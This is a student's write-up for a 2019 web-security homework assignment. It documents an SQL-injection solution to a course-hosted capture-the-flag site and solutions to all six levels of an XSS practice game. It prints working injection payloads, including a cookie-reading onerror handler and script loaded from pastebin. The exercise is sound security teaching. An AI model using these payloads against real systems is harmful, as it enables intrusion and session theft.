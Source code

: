 # Writeup 1 - Web I

Name: *MOSES KAMOGA*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Moses Kamoga*


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)

- First things first, i clicked on everything on the website that was clickable.
  I did this, while observing the URL.

- When i clicked on the fortnite 0 - day hypertext link. I observed the URL and realised that "id = 0".
  Was the end of the URL. I realized that i could manipulate this. 

- First thing i tried was to do web shell attack. I ran this URL 
  "http://142.93.136.81:5000/item?id=https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php"
  This URL gave me a blank page. 

- I continued on my advantage. Still exploiting the "id = 0". Next Stop was the SQL injection.
  I added " id = '1' = '1' ". This did not throw an error and thus i knew this was more receptable to a SQL injection. 
  So, i went ahead and started playing with this.
  I inject '0R'1'='1'". this showed that an SQL injection was detected.

- Finally, i manipulated the URL in this way. 
  http://142.93.136.81:5000/item?id='||'1'='1'
  this was translated in this way --> " http://142.93.136.81:5000/item?id=%27||%271%27=%271 "
  I scolled dowm and found the flag.

- Flag found
  CMSC389R-{y0u_ar3_th3_SQ1_ninj@}


### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

level 1
- I pressed the search button and it displayed this URL "https://xss-game.appspot.com/level1/frame?query= ".
  Immediately, i knew i could inject script where in the URL where 'query = '.
  I modified the URL in this way(below) to pop a javaScript alert().
  https://xss-game.appspot.com/level1/frame?query=<script>alert();</script>
  By entering the <script>alert();</script> in the "Enter query here.." textbox and pressing the search button.

level 2
- After seeing the first two hits, i had an idea of the kind of xss injection.
  In the chat textbox, i entered this img tag and this lead to an alert to pop up.
  <img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

level 3
- level 2, gave me an idea of what i wanted to do here. With the URL being the vulnerable bit.
  I had to manipulate it to get the desired effect of an alert. So i added this code to the URL.
  onerror='alert(1)';
  the URL became https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';'

level 4
- Putting in a single quote as one of the hints suggested. I generated a string literal error.
- Also one of the hints talked about the parse attributes that is the HTML-decode with 
  <foo bar='z'> being the same as <foo bar= '&#x7a'>
- I decided to play around with alot of HTML decode values. 
  Adding to the single quote.
  Finally, coming up with the right solution.
  By running this 
  https://xss-game.appspot.com/level4/frame?timer= ')%3Balert(1)%3Bvar b=('

level 5
- When i saw this webpage, i immediately pressed the 'next' hypertext link.
- Lookinng at the URL, there is 'next=' which raises my eyebrows. 
- Immediately, i realised that this is vulnarable to XSS. 
  I inserted the alert where the equal to is in 'next ='
  with the link below, i was able to comprise the web
  https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

level 6
- I created a file pastebin.com to use it to put my code --alert(1)
  Looking at the hints and the source gave me a clear picture of what to write. 

  I ran this URL but added "htTps://pastebin.com/raw.php?i=15S5qZs0", to corrupt the system.
  Since looking at the code, i realised that the 'https' is not case-sensitive. 
  So, i manipulated the URL with a manipulated https  
  https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0









### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
